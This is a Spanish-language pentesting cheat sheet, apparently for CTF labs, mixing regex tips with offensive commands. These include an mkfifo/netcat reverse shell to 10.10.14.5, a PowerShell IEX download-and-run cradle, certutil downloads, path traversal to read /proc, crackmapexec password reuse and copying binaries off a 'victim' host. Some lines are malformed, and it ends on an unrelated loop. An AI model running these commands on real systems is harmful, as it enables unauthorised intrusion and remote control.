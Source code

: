 ## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `'/^\s*$/d`
**Expresion regular para filtrar por rangos con awk**: `awk "/' -/,/:cannot open/" `
## Linux
**Reverse Shell; MKFIFO**: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;*`
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: `-u users -p '<password>' --continue-on-success`
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**:`print(os.popen(""$command")).read())`
**Mandar binarios de maquina victima a maquina atacando con SSH**: `sshpass -p '$passwd' scp $user@$ip:/path/to/binary .`
**Conseguir la fecha, hora, segundo y año(linux):** `date +%F_%H:%M:%S `
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
**Para saber la version de windows:** `reg query "hklm\software\microsfot\windows nt\currentversion" /v ProductName`
**Listar contenido oculto:** `dir -Force`
**Listar reglas de firewall:** `netsh advfirewall show currentprofile`
**Listar permisos de un archivo:** `icacls archivo`
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.
i=1; for folder in $(ls -d */); do mv "$folder" "$i.$folder"; i=$((i+1)); if [ $i -gt 10 ]; then break; fi; done

